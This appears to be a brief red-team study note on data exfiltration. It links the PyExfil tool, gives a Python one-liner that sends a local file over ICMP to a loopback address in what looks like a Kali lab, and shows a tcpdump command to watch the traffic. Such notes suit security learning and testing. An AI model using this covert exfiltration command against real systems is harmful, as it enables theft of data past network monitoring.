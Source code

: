# Stego Red Team

## Data Exfiltration

* PyExfil: https://github.com/ytisf/PyExfil

`python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

`tcpdump -A icmp -i lo`

